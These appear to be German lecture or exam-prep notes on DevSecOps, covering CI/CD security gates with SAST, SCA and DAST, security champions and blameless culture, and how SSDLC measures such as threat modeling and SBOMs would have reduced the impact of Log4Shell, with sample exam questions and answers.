Definition DevSecOps (Kultur vs. Tooling), Funktionsweise von Security Gates und die Rolle von Security Champions.

---

# Von DevOps zu DevSecOps

- **DevOps**: Kultur und Praktiken, die Entwicklung (Dev) und Betrieb (Ops) enger verzahnen – häufige, automatisierte Releases

- **DevSecOps**: Erweiterung von DevOps, bei der Security als gleichberechtigter Bestandteil in jeden Schritt der Pipeline integriert wird

- Kernidee: Sicherheit ist **Aufgabe des gesamten Teams**, nicht nur eines separaten Security-Teams am Ende

### 💡 Auf den Punkt gebracht (Einfach erklärt)
DevOps hat die Mauer zwischen Entwicklern (die schnell neue Features liefern wollen) und Administratoren (die Stabilität fordern) eingerissen. Aber Sicherheit blieb oft ein isoliertes Silo: Das Security-Team bremste Releases kurz vor dem Start aus. **DevSecOps** schließt diese Lücke, indem Sicherheit von Anfang an als gemeinsames Ziel aller Beteiligten gelebt wird („Security as Code“). Sicherheit ist kein Türsteher am Ende, sondern ein automatisierter Begleiter bei jedem Schritt.
*Merksatz:* DevSecOps ist kein Tool, das man im Laden kaufen kann – es ist eine Kultur der geteilten Verantwortung (**Shared Responsibility**).

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Die Entwicklung von DevOps zu DevSecOps erklären und begründen, warum Sicherheit nicht als separate Kontrollinstanz am Ende funktionieren kann.
- **Typische Klausurfalle:** DevSecOps als reines Tool-Paket beschreiben. In der Klausur immer betonen: **Kultur, Prozesse und Werkzeuge** gehören zusammen!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Erläutern Sie das Kernprinzip von DevSecOps im Vergleich zu klassischem DevOps.“
**Antwort:**
- **Klassisches DevOps:** Verzahnung von Entwicklung (Dev) und Betrieb (Ops) für schnelle, automatisierte Releases; Sicherheit wird oft nachgelagert oder separat behandelt.
- **DevSecOps:** Vollständige Integration von IT-Sicherheit als **gemeinsame Verantwortung des gesamten Teams** in jede Phase der Entwicklungs- und Bereitstellungspipeline (Sicherheit als kontinuierlicher Bestandteil, nicht als Bremsklotz am Ende).

---

# CI/CD-Pipeline mit Security Gates

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Eine moderne CI/CD-Pipeline führt Code-Änderungen vollautomatisch vom Entwickler-PC bis auf den Produktionsserver. In einer DevSecOps-Pipeline schalten wir an logischen Stellen Sicherheitsfilter ein:
1. **Commit:** Secret Scanner & Linters (prüfen blitzschnell auf versehentlich committete Passwörter).
2. **Build:** SAST & SCA (analysieren Quellcode und Bibliotheken auf bekannte Schwachstellen).
3. **Deploy (Testumgebung):** DAST (testet die laufende Testinstanz gegen reale Web-Angriffe).
4. **Release:** Ein **Security Gate** entscheidet: Erfüllt der Build alle Qualitätskriterien? Wenn ja, Go-Live; wenn nein, Pipeline-Abbruch!

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Eine idealtypische CI/CD-Pipeline mit den passenden Sicherheitsprüfungen in der richtigen Reihenfolge aufzeichnen und begründen können.
- **Typische Klausurfalle:** DAST in die Commit-Phase stecken wollen. DAST erfordert eine **lauffähige Webanwendung** und kann erst nach dem Build/Deployment auf einer Testumgebung laufen!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „An welcher Stelle einer CI/CD-Pipeline sollte SCA und an welcher Stelle DAST ausgeführt werden? Begründen Sie die jeweilige Platzierung.“
**Antwort:**
- **SCA beim Build / vor dem Testen:** SCA benötigt lediglich die Paket- und Abhängigkeitsdateien; eine frühzeitige Prüfung verhindert das Weiterbauen verwundbarer Komponenten.
- **DAST nach dem Deployment auf einer Testumgebung:** DAST greift die Anwendung dynamisch über HTTP/Netzwerk an und benötigt daher eine **vollständig lauffähige, deployte Instanz**.

---

# Security Gates richtig einsetzen

- **Security Gate**: automatisierter Kontrollpunkt in der Pipeline, der den weiteren Ablauf stoppt, wenn definierte Kriterien nicht erfüllt sind

- Beispiele für Gate-Kriterien:
  - Keine Schwachstelle mit CVSS ≥ 9.0 in Abhängigkeiten
  - Keine gefundenen Secrets im Commit
  - SAST-Scan ohne kritische Findings

- Balance nötig: zu strenge Gates bremsen Teams aus, zu lasche Gates verfehlen ihren Zweck

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Ein **Security Gate** ist wie eine Schranke an der Autobahnmaut: Wenn die Sicherheitskriterien erfüllt sind, öffnet sich die Schranke und der Build geht in die nächste Phase. Gibt es schwere Mängel, stoppt die Pipeline automatisch und schlägt Alarm.
*Die Kunst der Balance:* Wenn das Gate bei jeder winzigen Warnung stoppt, sind die Entwickler frustriert und suchen Wege, das Gate zu umgehen (**Alarmmüdigkeit**). Wenn das Gate alles durchwinkt, ist es nutzlos. Typische sinnvolle Kriterien: Keine Lücken mit CVSS ≥ 9.0 (kritisch), null fest codierte Secrets, keine kritischen SAST-Funde.

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Den Begriff „Security Gate“ definieren, typische Abbruchkriterien nennen und das Dilemma zwischen strenger Sicherheit und Entwicklungsgeschwindigkeit erklären können.
- **Typische Klausurfalle:** Zu fordern, dass ein Security Gate *jeden einzelnen* Fund abblocken muss. In der Praxis führt das zum Stillstand – Gates müssen nach **Schweregrad und Ausnutzbarkeit** priorisieren!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Was ist ein Security Gate in einer CI/CD-Pipeline und welche Gefahr droht, wenn die Kriterien zu strikt gewählt werden?“
**Antwort:**
- **Definition:** Ein automatisierter Kontrollpunkt in der Pipeline, der den Build- und Deployment-Prozess abbricht, falls definierte Sicherheitsgrenzwerte überschritten werden (z. B. Funde mit CVSS ≥ 9.0).
- **Gefahr zu strikter Kriterien:** Entwickler werden durch viele False Positives blockiert; es entsteht **Alarmmüdigkeit (Alert Fatigue)** und Teams versuchen, Sicherheitsprüfungen zu umgehen oder abzuschalten.

---

# DevSecOps-Kultur

- Technische Tools allein reichen nicht – DevSecOps braucht auch:
  - **Security Champions**: Entwickler mit zusätzlichem Sicherheitswissen als Ansprechpartner im Team
  - **Schulungen**: Secure-Coding-Trainings statt einmaliger Kick-off-Veranstaltung
  - **Blameless Culture**: Schwachstellen melden, ohne Angst vor Schuldzuweisung

> **Merksatz:** DevSecOps ist zu 20 % Werkzeug und zu 80 % Kultur.

### 💡 Auf den Punkt gebracht (Einfach erklärt)
Die besten Scanner nützen nichts, wenn Entwickler die Reports ignorieren oder Angst haben, Fehler zuzugeben. Echte Sicherheit braucht Kultur:
- **Security Champions:** Normale Entwickler, die sich freiwillig für Sicherheit interessieren, geschult werden und als Ansprechpartner und Botschafter im Team fungieren.
- **Blameless Culture (Fehlerkultur ohne Schuldzuweisung):** Wenn eine Sicherheitslücke gefunden wird, fragt man nicht „Wer war schuld?“, sondern „Warum hat unser Prozess das nicht verhindert und wie verbessern wir uns?“.
*Merksatz:* 80 % Kultur, 20 % Werkzeug – Werkzeuge liefern Daten, Menschen treffen Entscheidungen!

### 🎯 Klausurrelevanz & Lernziel
- **Was du können musst:** Das Konzept des „Security Champions“ erklären und begründen können, warum Technologie allein ohne Sicherheitskultur fehlschlägt.
- **Typische Klausurfalle:** Security Champions für vollwertige Security-Auditoren halten. Champions sind **Brückenbauer** zwischen Entwicklerteam und zentralem Security-Team!

### ❓ Mögliche Klausurfrage & Antwortskizze
**Frage:** „Was versteht man unter einem 'Security Champion' in einer DevSecOps-Organisation und welche Aufgabe hat diese Rolle?“
**Antwort:**
- **Definition:** Ein reguläres Mitglied des Entwicklungsteams mit speziellem Interesse und Zusatzausbildung im Bereich IT-Sicherheit.
- **Aufgaben:** Dient als **erster Ansprechpartner** für Sicherheitsfragen im Team, sensibilisiert Kollegen (**Multiplikator**) und fungiert als **Schnittstelle/Brücke** zum zentralen Security-Team.

---

# Zurück zu Log4Shell: Was hätte geholfen?

| SSDLC-Phase | Maßnahme | Hätte geholfen bei Log4Shell? |
|---|---|---|
| Design | Threat Modeling (STRIDE) | Risiko des JNDI-Lookups wäre aufgefallen |
| Implementierung | Sichere Standardkonfiguration | Feature standardmäßig deaktiviert |
| Testing | SCA | Verwundbare Version wäre markiert worden |
| Supply Chain | SBOM | Betroffenheit in Minuten statt Tagen klar |

### 💡 Was zeigt uns dieser Fall?
Hier schließt sich der Kreis zu unserer Fallstudie vom Anfang: Log4Shell war so verheerend, weil in fast allen Phasen die Sicherheitsmechanismen fehlten. Doch im SSDLC gibt es kein Einzelversagen: Jede Phase hätte ihren eigenen Beitrag zur Risikominimierung geleistet!
- *Design:* Threat Modeling hätte die Frage aufgeworfen, warum ein Logger fremden Code nachladen darf.
- *Implementierung:* Eine sichere Standardkonfiguration (**Secure by Default**) hätte JNDI standardmäßig deaktiviert gelassen.
- *Testing:* SCA hätte die verwundbare Version sofort nach Bekanntwerden der CVE markiert.
- *Supply Chain:* Eine SBOM hätte binnen Minuten gezeigt, welche Anwendungen Log4j enthalten.

### 🎯 Klausurrelevanz (Transferaufgabe!)
- **Was du können musst:** Log4Shell mit den SSDLC-Phasen verknüpfen und zu mindestens drei Phasen konkrete Maßnahmen mit ihrer Schutzwirkung erklären können.
- **Typische Klausurfalle:** Zu behaupten, eine einzelne Maßnahme hätte alles gelöst. Sicherheit ist **Defense in Depth** – mehrere Barrieren greifen ineinander!

### ❓ Typische Fallfrage & Lösung
**Frage:** „Nennen Sie drei Phasen des SSDLC und beschreiben Sie für jede Phase eine konkrete Maßnahme, die das Risiko oder die Auswirkungen von Log4Shell reduziert hätte.“
**Antwort:**
- **Design:** **Threat Modeling (STRIDE)** – Identifikation des Risikos unkontrollierter externer Lookups über Vertrauensgrenzen hinweg.
- **Implementierung:** **Secure by Default** – Riskante Funktionen (JNDI-Lookups) standardmäßig deaktivieren.
- **Supply Chain:** **SBOM (Software Bill of Materials)** – Sofortige Identifikation aller betroffenen Softwarepakete und Server im Unternehmen innerhalb von Minuten statt Wochen.

---

# Zusammenfassung

| Phase | Sicherheitsaktivität |
|---|---|
| Planung | Security Requirements, Abuse Cases, Compliance |
| Design | Security by Design, Threat Modeling, STRIDE |
| Implementierung | Secure Coding (OWASP Top 10), Secrets Management |
| Testing | SAST, DAST, SCA, Code Review, Fuzzing |
| Supply Chain | SBOM, Absicherung der Abhängigkeiten |
| Betrieb | CI/CD mit Security Gates, Monitoring |

> **Merksatz:** Sicherheit ist kein Zustand am Ende, sondern eine Aktivität in jeder Phase.

### 💡 Schnell-Check
- **SSDLC:** Sicherheit ist kein Endschritt, sondern eine kontinuierliche Aktivität in **jeder Phase** der Entwicklung.
- **Shift Left:** Frühzeitiges Finden von Fehlern spart exponentiell Kosten und verhindert Architektur-Totalschäden.
- **Methoden-Mix:** SAST (eigener Code), SCA (Fremdbibliotheken) und DAST (Laufzeit) ergänzen sich gegenseitig.
- **Supply Chain & DevSecOps:** Transparenz durch **SBOM** und Durchsetzung über **Security Gates** in der CI/CD-Pipeline.

### 🎯 Prüfungs-Checkliste
- [ ] Kannst du die Phasen des SDLC und die jeweils zugehörigen SSDLC-Aktivitäten zuordnen?
- [ ] Beherrschst du die Begriffe *Shift Left*, *Least Privilege*, *Fail Secure* und *Defense in Depth*?
- [ ] Kannst du SAST, DAST und SCA in einer Tabelle vergleichen?
- [ ] Weißt du, wofür die 6 Buchstaben von *STRIDE* stehen und welches Schutzziel sie betreffen?
- [ ] Kannst du erklären, warum eine SBOM bei Vorfällen wie Log4Shell unverzichtbar ist?

### ❓ Blitzfragen zur Selbstkontrolle
1. *Warum findet ein SAST-Tool keine XSS-Lücke, die nur durch eine falsche Server-Konfiguration zur Laufzeit entsteht?*
   ➔ Weil SAST nur den statischen Code liest und Laufzeit- bzw. Konfigurationseigenschaften des Webservers nicht ausführt (dafür braucht man DAST).
2. *Welches Schutzziel wird bei STRIDE unter dem Buchstaben 'T' verletzt und wie schützt man sich dagegen?*
   ➔ 'Tampering' verletzt die **Integrität** von Daten; Schutz bieten **kryptographische Hashwerte, Prüfsummen oder digitale Signaturen**.
